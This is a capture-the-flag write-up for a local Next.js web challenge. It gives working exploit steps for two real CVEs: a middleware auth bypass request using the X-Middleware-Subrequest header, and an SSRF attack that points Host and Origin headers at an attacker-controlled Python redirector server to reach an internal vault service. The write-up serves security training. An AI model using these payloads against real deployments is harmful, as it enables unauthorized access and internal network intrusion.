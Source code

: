 install `docker` and `docker-compose`

```sh
cd ./CTFs/04-2025/web/web2
```

then

```sh
sudo docker-compose up
```

then application should build and run on port 3000 locally

![image](Pasted image 20250411224644.png)

the 1st flag will be obtained by bypassing the auth using [CVE-2025-29927](https://vercel.com/blog/postmortem-on-next-js-middleware-bypass)

you could've guessed by provided `package.json` file in the description as a **free** hint:

```json
{
  "name": "vulnerable-app",
  "version": "0.1.0",
  "private": true,
  "scripts": {
    "dev": "next dev",
    "build": "next build",
    "start": "next start",
    "lint": "next lint"
  },
  "dependencies": {
    "@tailwindcss/typography": "^0.5.16",
    "bootstrap": "^5.3.3",
    "emoji-picker-react": "^4.12.2",
    "html2pdf.js": "^0.10.3",
    "jspdf": "^3.0.1",
    "next": "14.0.0",
    "react": "^18",
    "react-dom": "^18",
    "tailwindcss": "^4.0.15"
  },
  "devDependencies": {
    "@types/node": "^20",
    "@types/react": "^18",
    "@types/react-dom": "^18",
    "eslint": "^8",
    "eslint-config-next": "14.0.0",
    "typescript": "^5"
  }
}
```

Next js version as follows:

```json
...
"next": "14.0.0"
...
```

you can use this PoC: https://github.com/MuhammadWaseem29/CVE-2025-29927-POC

```http
GET /dashboard HTTP/1.1
Host: 192.168.0.85:3000
X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware
```

![image](Pasted image 20250411225646.png)

to bypass the auth and get access to the dashboard, click the "GETFLAG 1" button

---

## FLAG2

To get the 2nd flag you should reach the internal host `http://vault-app:8001`

There are two ways to know internal IP of that vault-app:
1. Scan the default subnet of docker containers by brute-forcing IP addresses
2. Get the hint for 100 points — in the hint I was shared `docker-compose.yml`:

```yml
version: '3.8'

networks:
  vault_net:
    driver: bridge
    ipam:
      config:
        - subnet: 172.30.0.0/24

services:
  next-app:
    build:
      context: ./next-app
    container_name: next-app
    ports:
      - "3000:3000"
    depends_on:
      - vault-app
    networks:
      vault_net:
        ipv4_address: 172.30.0.20
    command: >
      sh -c "npm install &&
             npm run build &&
             npm start"

  vault-app:
    build:
      context: ./vault-internal
      dockerfile: Dockerfile
    container_name: vault-app
    env_file:
      - ./vault-internal/.vault.env
    networks:
      vault_net:
        ipv4_address: 172.30.0.10
```

Vault-app has IP `172.30.0.10`  
and port is `8001`

---

Here is the overall scenario:

![image](Pasted image 20250412123417.png)

---

Explore how vault-app works (source can be downloaded with "Download" button)

Authentication with:

```
Authorization-Internal: Basic <base64>
```

Credentials provided were:

```
coder:Employee@2025
```

Base64 encoded:

```
Authorization-Internal: Basic Y29kZXI6RW1wbG95ZWVAMjAyNQ==
```

---

## Exploit (CVE-2024-34351)

Python redirector server:

```python
from http.server import BaseHTTPRequestHandler, HTTPServer
from urllib.parse import urlparse
import json

class SimpleHandler(BaseHTTPRequestHandler):
    def do_HEAD(self):
        self.send_response(200)
        self.send_header('Content-Type', 'text/x-component')
        self.end_headers()

    def do_GET(self):
        ssrf = self.headers.get('ssrf', 'http://172.30.0.10:8001')
        
        log_data = {
            'url': self.path,
            'method': self.command,
            'ssrf': ssrf
        }
        print("Request received: " + json.dumps(log_data))
        print(f"Redirecting to: {ssrf}")

        self.send_response(302)
        self.send_header('Location', ssrf)
        self.end_headers()

def run(server_class=HTTPServer, handler_class=SimpleHandler, port=8000):
    server_address = ('', port)
    httpd = server_class(server_address, handler_class)
    print(f'Listening on port {port}...')
    httpd.serve_forever()

if __name__ == '__main__':
    run()
```

---

Attack scenario:

![image](Pasted image 20250412153919.png)

Prepare your attacker server with public/private IP (since app is local)

![image](Pasted image 20250412154820.png)

SSRF is triggered by Next.js action (click "Internal" button)

Set headers:

```
Host: <attacker-IP>
Origin: http://<attacker-IP>
```

See response coming from vault-app here:

![image](Pasted image 20250412155156.png)

And get FLAG2:

![image](Pasted image 20250412155302.png)
